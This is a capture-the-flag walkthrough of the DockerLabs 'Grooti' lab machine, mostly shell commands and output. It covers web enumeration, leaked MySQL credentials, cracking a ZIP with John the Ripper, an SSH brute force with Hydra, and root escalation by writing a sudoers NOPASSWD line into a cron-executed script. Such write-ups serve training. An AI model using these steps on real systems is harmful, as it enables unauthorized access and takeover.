



# Grooti

## Executive Summary
| Machine | Author | Platform | Difficulty |
| :--- | :--- | :--- | :--- |
| Grooti | Grooti16 | DockerLabs | Easy |

**Summary:** The Grooti machine presents a multi-stage exploitation chain rooted in a web application that leaks sensitive information across publicly accessible directories and a MySQL database exposed to the network. The attack begins with web enumeration, where a `README.txt` file in the `/imagenes/` directory discloses a partial credential, and an `instrucciones.txt` file in the `/secret/` directory hints at a MySQL user account named `rocket`. Connecting to the externally accessible MySQL instance with those credentials reveals a database containing file system paths, one of which points to a hidden web endpoint: `/unprivate/secret/`. That endpoint hosts a `generate.php` script that, when iterated over a numeric parameter, produces a password-protected ZIP archive at index 16. After cracking the archive password using John the Ripper against the `rockyou.txt` wordlist, the extracted `password16.txt` file provides a wordlist that, when used with Hydra against SSH, yields valid credentials for the `grooti` user. Once on the machine, enumeration reveals a cron job running as root every minute that executes `/tmp/malicious.sh`, a file writable by the `grooti` user. By injecting a sudoers entry through that writable script and waiting for the cron job to fire, the attacker escalates to full root access.

---

## Reconnaissance

**1. Deploy the Machine**

The machine is deployed using the DockerLabs helper script, which reveals the target IP address.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ sudo bash auto_deploy.sh grooti.tar 
[sudo] password for ouba: 

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /"""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

**2. Port Scan**

A full-port Nmap scan with service and script detection reveals three open ports: SSH on 22, HTTP on 80, and MySQL on 3306. The MySQL port being externally accessible is immediately notable.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.95 ( https://nmap.org ) at 2026-07-23 14:36 WIB
Nmap scan report for internal.dl (172.17.0.2)
Host is up (0.0000080s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 46:69:49:1a:d0:b7:26:05:90:a3:22:b2:a8:fe:fd:83 (ECDSA)
|_  256 91:67:c5:15:53:13:af:6f:28:7d:1e:77:46:0c:c1:bb (ED25519)
80/tcp   open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: 🌱 Grooti's Web
|_http-server-header: Apache/2.4.58 (Ubuntu)
3306/tcp open  mysql   MySQL 8.0.42-0ubuntu0.24.04.2
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=MySQL_Server_8.0.42_Auto_Generated_Server_Certificate
| Not valid before: 2025-07-18T22:37:08
|_Not valid after:  2035-07-16T22:37:08
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.42-0ubuntu0.24.04.2
|   Thread ID: 12
|   Capabilities flags: 65535
|   Some Capabilities: LongColumnFlag, ODBCClient, Support41Auth, Speaks41ProtocolOld, SupportsTransactions, IgnoreSigpipes, Speaks41ProtocolNew, SwitchToSSLAfterHandshake, SupportsCompression, ConnectWithDatabase, SupportsLoadDataLocal, LongPassword, DontAllowDatabaseTableColumn, FoundRows, IgnoreSpaceBeforeParenthesis, InteractiveClient, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: dFc,{cz\x11\x7F^\x17<i2\x02n\x15'ac
|_  Auth Plugin Name: caching_sha2_password
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.00 seconds
```

**3. Web Application Inspection**

Visiting the web server on port 80 shows a simple page. Inspecting the page source reveals interesting hints embedded in the HTML.




---

## Vulnerability Discovery

**4. Directory and File Enumeration**

Feroxbuster is used against the web root with a comprehensive wordlist and multiple file extensions. The scan uncovers several interesting paths: `/archives/`, `/imagenes/`, `/secret/`, and crucially a `README.txt` in `/imagenes/` and an `instrucciones.txt` inside `/secret/`.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ feroxbuster -u http://$ip/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x php,html,txt,json,js,bak,sql,zip,tar,env
                                                                                                                                
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.13.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://172.17.0.2/
 🚩  In-Scope Url          │ 172.17.0.2
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.13.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php, html, txt, json, js, bak, sql, zip, tar, env]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       31w      272c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      275c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       58l      135w     1436c http://172.17.0.2/index.html
301      GET        9l       28w      311c http://172.17.0.2/archives => http://172.17.0.2/archives/
200      GET      326l     2215w   190250c http://172.17.0.2/imagenes/grooti.jpg
200      GET      326l     2215w   190250c http://172.17.0.2/groot.jpg
200      GET       58l      135w     1436c http://172.17.0.2/
200      GET        1l        5w       39c http://172.17.0.2/imagenes/README.txt
200      GET       97l      169w     2045c http://172.17.0.2/archives/index.html
301      GET        9l       28w      311c http://172.17.0.2/imagenes => http://172.17.0.2/imagenes/
301      GET        9l       28w      309c http://172.17.0.2/secret => http://172.17.0.2/secret/
200      GET      509l       11w      571c http://172.17.0.2/secret/instrucciones.txt
200      GET      106l      221w     2579c http://172.17.0.2/secret/index.html
[###############>----] - 21m  5573016/7278095 8m      found:11      errors:0      
[####################] - 31m  7278095/7278095 0s      found:11      errors:0      
[####################] - 31m  2425995/2425995 1315/s  http://172.17.0.2/ 
[####################] - 1s   2425995/2425995 2498450/s http://172.17.0.2/imagenes/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 31m  2425995/2425995 1315/s  http://172.17.0.2/archives/ 
[####################] - 31m  2425995/2425995 1318/s  http://172.17.0.2/secret/   
```

The `/secret/` endpoint is shown below:



**5. Retrieving the Leaked Credentials**

The `instrucciones.txt` file provides a clear instruction pointing toward a MySQL user, while `README.txt` discloses the accompanying password.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ curl http://$ip/secret/instrucciones.txt
look carefully here ;)
...
mysql -u rocket -p -h 172.17.0.2 --ssl=0
```

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ curl http://$ip/imagenes/README.txt
(password1) Encuentra donde ponerla ;)
```

---

## Initial Access

**6. MySQL Enumeration**

Using the credentials `rocket:password1` to connect to the exposed MySQL server (with SSL disabled as indicated in the instructions), a database named `files_secret` is found. Its sole table, `rutas`, contains file system paths for several directories, including a non-standard path: `/unprivate/secret`.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ mysql -h $ip -u rocket -ppassword1 --ssl=0 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 10
Server version: 8.0.42-0ubuntu0.24.04.2 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| files_secret       |
| information_schema |
| performance_schema |
+--------------------+
3 rows in set (0.042 sec)

MySQL [(none)]> use files_secret;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [files_secret]> show tables;
+------------------------+
| Tables_in_files_secret |
+------------------------+
| rutas                  |
+------------------------+
1 row in set (0.002 sec)

MySQL [files_secret]> select * from rutas;
+----+------------+---------------------------------+
| id | nombre     | ruta                            |
+----+------------+---------------------------------+
|  1 | imagenes   | /var/www/html/files/imagenes/   |
|  2 | documentos | /var/www/html/files/documentos/ |
|  3 | facturas   | /var/www/html/files/facturas/   |
|  4 | secret     | /unprivate/secret               |
+----+------------+---------------------------------+
4 rows in set (0.006 sec)
```

The `/unprivate/secret` web path, as seen on the server:



**7. Enumerating the Hidden Endpoint**

A second Feroxbuster scan targets the newly discovered `/unprivate/secret/` path, revealing `generate.php` and `download.php` alongside an `index.html`.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ feroxbuster -u http://$ip/unprivate/secret/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x php,html,txt,json,js,bak,sql,zip,tar,env
                                                                               
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.13.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://172.17.0.2/unprivate/secret
 🚩  In-Scope Url          │ 172.17.0.2
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.13.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php, html, txt, json, js, bak, sql, zip, tar, env]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        9l       28w      275c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       31w      272c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET        1l        6w       45c http://172.17.0.2/unprivate/secret/download.php
200      GET        1l        6w       46c http://172.17.0.2/unprivate/secret/generate.php
200      GET      109l      238w     2415c http://172.17.0.2/unprivate/secret/index.html
301      GET        9l       28w      319c http://172.17.0.2/unprivate/secret => http://172.17.0.2/unprivate/secret/
```

**8. Extracting the Password Archive**

The `generate.php` endpoint accepts a `number` parameter. A bash loop iterates over values 1 through 100, sending POST requests concurrently and saving each response. Sorting the results by file size shows that response number 16 is anomalously large, at 429 bytes, compared to all others which are only 1 byte.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ mkdir response

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ for i in $(seq 1 100); do curl -s -X POST -d "content=a&number=$i" http://$ip/unprivate/secret/generate.php -o ./response/$i.txt & done; wait
[2] 5689
[3] 5690
[4] 5691
[5] 5692
...

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ ls -lahS response 
total 408K
drwxr-xr-x 2 ouba ouba 4.0K Jul 23 20:46 .
drwxr-xr-x 3 ouba ouba 4.0K Jul 23 20:46 ..
-rw-r--r-- 1 ouba ouba  429 Jul 23 20:46 16.txt
-rw-r--r-- 1 ouba ouba    1 Jul 23 20:46 100.txt
-rw-r--r-- 1 ouba ouba    1 Jul 23 20:46 10.txt
-rw-r--r-- 1 ouba ouba    1 Jul 23 20:46 11.txt
-rw-r--r-- 1 ouba ouba    1 Jul 23 20:46 12.txt
...
```

The `file` command confirms the 429-byte response is a ZIP archive. The archive is password-protected, so `zip2john` extracts its hash, and John the Ripper cracks it against the `rockyou.txt` wordlist, recovering the password `password1`.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ file response/16.txt 
response/16.txt: Zip archive data, made by v3.0 UNIX, extract using at least v2.0, last modified Jul 19 2025 15:53:38, uncompressed size 327, method=deflate

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ mv response/16.txt response/16.zip 

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ unzip response/16.zip 
Archive:  response/16.zip
[response/16.zip] password16.txt password: 
   skipping: password16.txt          incorrect password

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ zip2john response/16.zip > ./hash
ver 2.0 efh 5455 efh 7875 16.zip/password16.txt PKZIP Encr: TS_chk, cmplen=235, decmplen=327, crc=DEAD4CC8 ts=7EB3 cs=7eb3 type=8

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ cat hash 
16.zip/password16.txt:$pkzip$1*1*2*0*eb*147*dead4cc8*0*48*8*eb*7eb3*293134df7003ebfde554ce3b6adca08e5fe35800c4ad283002a498646d2d6b2b3f05d36fe00c63005044820f66c2c5bc7718ef6a1a72b532431c365071eb9a0a59cc559b5996bdf8996c54934bad9b6b6636c67c0573f52e75f5a69d418a1e811878119fdb5053b3b4296474cc10baf1ced0b8aa68ea42c7fa384d00c0c4b886512468c607d8b9ba4b04233a18cb5f74a13585f4f0982a7c5530b0c93a31b49b1ea064a9a93033d402c6d3e05e527bd9f21b38268e19738baf702b1c598897baaa5f7cbcb05375b01b1ef802cd357f23e5b3511d9f7de5672e13a11d454ee62358629ffd2a56308b5de739*$/pkzip$:password16.txt:16.zip::response/16.zip

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password1        (16.zip/password16.txt)     
1g 0:00:00:00 DONE (2026-07-23 20:48) 7.142g/s 58514p/s 58514c/s 58514C/s 123456..whitetiger
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                                                                                                                           
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ unzip response/16.zip
Archive:  response/16.zip
[response/16.zip] password16.txt password: 
  inflating: password16.txt          
                                                                                                                                           
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ cat password16.txt 
admin123
123456
qwerty
letmein
roottoor
12345678
password
summer2025
iloveyou
hunter2
passw0rd
toor123
changeme
adminadmin
welcome1
trustno1
abc123456
useruser
dragon2024
mydogrex
grootlove
Galaxy42
!P@ssword!
megasecret
YOLOgroot
P@ss1234
monkeybanana
YOgrootRULEZ
YoSoYgRoOt
finalchance
1qaz2wsx
batman2025
rootroot
hello123
```

**9. SSH Brute Force**

The extracted wordlist is fed into Hydra targeting the `grooti` user over SSH. The attack succeeds immediately, recovering the password `YoSoYgRoOt`.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ hydra -l grooti -P password16.txt ssh://$ip
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-07-23 20:50:02
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 34 login tries (l:1/p:34), ~3 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: grooti   password: YoSoYgRoOt
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-07-23 20:50:11
```

**10. SSH Login**

Using the cracked credentials to authenticate via SSH lands a shell as the `grooti` user.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ ssh grooti@$ip
grooti@172.17.0.2's password: 
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.18.33.2-microsoft-standard-WSL2 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Sat Jul 19 17:10:56 2025 from 172.17.0.1
grooti@1defbafe71d2:~$ id;whoami;hostname
uid=1001(grooti) gid=1001(grooti) groups=1001(grooti),100(users)
grooti
1defbafe71d2
```

---

## Privilege Escalation

**11. Internal Enumeration**

Inspecting the `/opt/` directory reveals a `cleanup.sh` script owned by root that simply executes `/tmp/malicious.sh`. Checking the permissions on `/tmp/malicious.sh` shows it is group-writable, and the group owner is `grooti`, meaning the current user has write access to the script that root will execute.

```bash
grooti@1defbafe71d2:~$ ls -al /opt
total 12
drwxr-xr-x 1 root root 4096 Jul 22  2025 .
drwxr-xr-x 1 root root 4096 Jul 23 15:12 ..
-rwxr-xr-- 1 root root   36 Jul 22  2025 cleanup.sh
grooti@1defbafe71d2:~$ cat /opt/cleanup.sh 
#!/bin/bash

bash /tmp/malicious.sh
grooti@1defbafe71d2:~$ ls -la /tmp/malicious.sh 
-rwxrw-r-- 1 root grooti 221 Jul 22  2025 /tmp/malicious.sh
```

**12. Cron Job Discovery**

Running `crontab -l` as `grooti` reveals that `/opt/cleanup.sh` is scheduled to run every minute. The `sudo` binary is also confirmed to be present.

```bash
grooti@1defbafe71d2:~$ crontab -l
# Edit this file to introduce tasks to be run by cron.
# 
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
# 
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').
# 
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
# 
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
# 
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
# 
# For more information see the manual pages of crontab(5) and cron(8)
# 
# m h  dom mon dow   command

* * * * * /opt/cleanup.sh
grooti@1defbafe71d2:~$ which sudo
/usr/bin/sudo
```

**13. Exploiting the Writable Script**

Since `grooti` can write to `/tmp/malicious.sh`, the payload is overwritten with a command that appends a full `NOPASSWD` sudoers rule for `grooti`. After waiting roughly 65 seconds for the cron job to execute, `sudo -l` confirms the entry has been applied. A call to `sudo -i` then spawns a root shell.

```bash
grooti@1defbafe71d2:~$ echo 'echo "grooti ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers' > /tmp/malicious.sh
grooti@1defbafe71d2:~$ sleep 65
grooti@1defbafe71d2:~$ sudo -l
Matching Defaults entries for grooti on 1defbafe71d2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User grooti may run the following commands on 1defbafe71d2:
    (ALL) NOPASSWD: ALL
grooti@1defbafe71d2:~$ sudo -i
root@1defbafe71d2:~# id;whoami;hostname
uid=0(root) gid=0(root) groups=0(root)
root
1defbafe71d2
```

---

## Attack Chain Summary

1. **Reconnaissance**: A full-port Nmap scan revealed SSH (22), HTTP (80), and an externally accessible MySQL server (3306). Web content enumeration with Feroxbuster uncovered hidden directories and text files leaking credentials.
2. **Vulnerability Discovery**: `instrucciones.txt` disclosed the MySQL username `rocket`, while `README.txt` leaked the password `password1`. Together these provided direct access to the database.
3. **Exploitation**: MySQL enumeration exposed a hidden web path (`/unprivate/secret/`). Iterating over `generate.php`'s numeric parameter produced a password-protected ZIP archive at index 16, which was cracked with John the Ripper to yield a custom wordlist.
4. **Internal Enumeration**: Hydra used the extracted wordlist to brute-force SSH, finding `grooti:YoSoYgRoOt`. Post-login enumeration identified `/opt/cleanup.sh` calling a writable `/tmp/malicious.sh` script that was executed by a root-owned cron job every minute.
5. **Privilege Escalation**: By overwriting `/tmp/malicious.sh` with a sudoers injection payload and waiting for the cron job to fire, the `grooti` account was granted unrestricted `sudo` access, enabling a full root shell via `sudo -i`.
